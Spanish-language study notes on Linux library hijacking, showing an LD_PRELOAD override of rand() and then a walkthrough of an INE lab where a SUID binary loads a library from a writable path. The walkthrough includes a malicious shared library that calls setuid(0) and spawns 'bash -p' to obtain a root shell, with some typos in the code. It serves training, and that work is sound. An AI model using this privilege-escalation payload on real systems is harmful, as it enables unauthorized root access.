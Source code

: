 
Creamos con C el siguiente script

  `1   │ #include <stdio.h>`
   `2   │ #include <time.h>`
   `3   │ #include <stdlib.h>`
   `4   │` 
   `5   │ int main(int argc, char const *argv[]) {`
   `6   │   srand(time(NULL));`
   `7   │   printf("%d\n", rand());`
   `8   │ }`

ejecutamos `gcc random.c -o random`


Nos bajamos la herramienta uftrace de github
Seguimos las intrucciones de github para instalarlo

ejecutamos uftrace `ufrace --force -a random`

Nuestro random debe de coincidir con la firma

las firmas llevan la esctructura
Nombre  -> argumentos -> tipo de retorno

Hacemos
man 3 rand

Al ejecutar random el enlazador dinamico toma como prioritario aquello que lea con una variable que contenga LD_PRELOAD

creamos script
       │ File: test.c
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ int rand(void){
   2   │   return 42;
   3   │ }

Ejecutamos el siguiente comando:
	gcc -shared -fPIC test.c -o test

Como podemos observar es que a LD_PRELOAD
le cargamos test  al ejecutable random podemos alterar ese random


------------------------

Ya una vez sabiendo esto


Desplegaremos un laboratorio

Nos vamos a la pagina Attack Defense de INE

Library Chaos

Ojo: No se puede hacer secuestro de bibliotecas que esten enlazadas estaticamente

Encontramos un binario llamamado welcome
Al ejecutarlo da error
			Error loading shared library
utilizamos ldd `ldd /usr/bin/welcome`

veremos si tenemos capacitad de escritura en una ruta llamada

`ls -l /etc/ | grep "ld.so.conf.d"

vemos que el propietario es root pero otros no podemos escribir

nos metemos a la ruta

Vemos que hay un custom.conf
	cat custom.conf
	salida:
		home/student/lib
		
Nos vamos al directorio home
y vemos que no existe /lib (aunque salio que existia el directorio)
Hacemos ls -l /usr/bin/welcome
	Vemos que tiene privilegios SUID
	
***ANALIZANDO PODEMOS OBSERVAR QUE A LA HORA DE EJECUTAR WELCOME EN AUTOMATICO EJECUTA LA LIBRERIA /LIB/ CON COMANDO ROOT ESO SIGNIFICA QUE PODEMOS REEMPLAZAR O CREAR LA LIBRERIA /LIB/ CON UN SCRIPT DENTRO EN EL CUAL ELEVEMOS PRIVILEGIOS***

Entonces creamos nosotros el directorio /lib
	`mkdir lib`
`vi test.c`
-----------------------------------------------------------------------------------------

	`#include <stdio.h>`
	`#include <unistd.h>`

	`int welcome()`
		`seuit(0)`
		`setgid(0)`
		`system("bash -p")`
		`return 0;`
-------------------------

Hacemos un `gcc -fPIC -shared test.c -o libwelcome.so`
	Nos da un warning pero aun asi se crea
Vemos que aun no tenenemos el recurso libwelcome.so

pero si lo metemos al recurso lib
`mv welcome.so lib`

Ejecutamos el comando libwelcome.so
		Nos arroja error diciendo que no ha encontrado la palabra welcome entonces volvemos al codigo creado y modificamos ``int main a int welcome
Borramos y Repetimos los mismos pasos y

ahora hacemos welcome
	y hacemos whoami --> root
	Nos metemos a /root/ y conseguimos la flag


